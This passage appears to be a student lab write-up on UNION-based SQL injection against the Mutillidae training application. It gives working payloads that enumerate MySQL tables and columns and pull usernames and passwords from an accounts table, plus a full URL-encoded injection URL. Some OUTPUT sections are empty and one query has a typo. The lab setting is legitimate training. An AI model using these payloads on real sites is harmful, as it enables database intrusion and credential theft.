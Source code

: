 The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.
## OUTPUT:
![alt text](<Screenshot 2025-05-25 221503.png>)
The column names of the accounts is displayed below for the following url:

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.203.1/mutillidae/index.php?page=user-info.php&username=thiru2%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details
## OUTPUT :